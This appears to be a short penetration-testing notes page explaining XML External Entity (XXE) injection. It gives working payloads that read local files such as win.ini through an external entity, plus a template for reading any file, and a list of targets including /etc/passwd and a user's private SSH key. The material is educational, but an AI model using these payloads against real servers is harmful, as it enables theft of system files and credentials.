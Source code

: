# XXE

<details>

<summary>Internal Entity</summary>

Entity declared within a DTD (XML elements are declared with ELEMENT declaration in DTD like `!ELEMENT element-name category`)

&#x20;Syntax: `<!ENTITY entity_name "entity_value">`

</details>

<details>

<summary>External Entity: </summary>

Entity declared outside of DTD. Identified by SYSTEM. Syntax: <`!ENTITY entity_name SYSTEM "entity_value>`

</details>

<details>

<summary>Example</summary>

<img src="../.gitbook/assets/image (47).png" alt="" data-size="original">

### Testing XXE vuln

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

<img src="../.gitbook/assets/image (87).png" alt="" data-size="original">

### XXE Loading External Entity

Since its windows target,&#x20;

```xml

<?xml version = "1.0"?><!DOCTYPE foo [<!ELEMENT item ANY ><!ENTITY xxe SYSTEM "file:///c:/windows/win.ini" >]>
```

<img src="../.gitbook/assets/image (90).png" alt="" data-size="original">

</details>

<details>

<summary>Interesting file locations</summary>

<pre class="language-xml"><code class="lang-xml"><strong>&#x3C;?xml version = "1.0"?>&#x3C;!DOCTYPE foo [&#x3C;!ELEMENT foo ANY >&#x3C;!ENTITY xxe SYSTEM "file:///{filename}" >]>
</strong></code></pre>

To display the file:

```xml
<foo>&xxe;</foo>
```

#### Linux:

* `/etc/passwd`

#### Windows:

* `C:/windows/system32/drivers/etc/hosts`
* `c:/windows/win.ini`
* `c:/boot.ini`
* `c:/users/daniel/.ssh/id_rsa`

</details>

### Links

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity" %}
